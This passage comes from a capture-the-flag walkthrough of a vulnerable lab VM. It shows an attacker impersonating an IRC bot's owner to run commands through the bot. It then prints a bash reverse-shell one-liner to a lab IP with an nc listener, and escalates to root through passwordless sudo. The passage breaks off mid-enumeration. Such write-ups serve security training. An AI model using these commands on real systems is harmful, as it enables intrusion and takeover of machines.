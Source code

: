         # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
:!kill 733
{% endhighlight %}

<p>Great, a few moments later we can see that waldo has quit. We can now quickly change our name to his using <b>/nick waldo</b> command, and fortunately, we'll be able to execute <b>.run</b> command. </p>
{% highlight bash %}
* waldo has quit (Client exited)
* You are now known as waldo
<waldo> .run whoami
<wallabysbot> b'wallaby'
{% endhighlight %}

<p>Firstly let's start the listener on port 8080. Now let's enter this useful trick, which will provide us with a shell. </p>

{% highlight bash %}
<waldo> .run bash -c "bash -i >& /dev/tcp/192.168.56.102/8080 0>&1"
{% endhighlight %}
{% highlight bash %}
root@kali:~# nc -nlvp 8080
listening on [any] 8080 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 57524
bash: cannot set terminal process group (624): Inappropriate ioctl for device
bash: no job control in this shell
wallaby@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for wallaby on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wallaby may run the following commands on ubuntu:
    (ALL) NOPASSWD: ALL 
{% endhighlight %}

<p>In addition we can freely use sudo. Amazing! </p>

{% highlight bash %}
wallaby@ubuntu:~$ sudo su
sudo su
whoami
root
ls
www
ls -la
total 52
drwxr-xr-x 8 wallaby wallaby 4096 Dec 16  2016 .
drwxr-xr-x 5 root    root    4096 Dec 16  2016 ..
-rw------- 1 wallaby wallaby    1 Dec 30  2016 .bash_history
-rw-r--r-- 1 wallaby wallaby  220 Dec 16  2016 .bash_logout
-rw-r--r-- 1 wallaby wallaby 3771 Dec 16  2016 .bashrc
drwx------ 3 wallaby wallaby 4096 Dec 16  2016 .cache
drwx------ 2 wallaby wallaby 4096 Dec 16  2016 .irssi
drwx------ 4 wallaby wallaby 4096 Dec 16  2016 .local
drwxrwxr-x 2 wallaby wallaby 4096 Dec 16  2016 .nano
-rw-r--r-- 1 wallaby wallaby  655 Dec 16  2016 .profile
-rw-rw-r-- 1 wallaby wallaby   66 Dec 16  2016 .selected_editor
drwxrwxr-x 4 wallaby wallaby 4096 Dec 30  2016 .sopel
-rw-r--r-- 1 wallaby wallaby    0 Dec 16  2016 .sudo_as_admin_successful
drwxrwxr-x 3 wallaby wallaby 4096 Dec 16  2016 www
cd /root
ls -la
total 48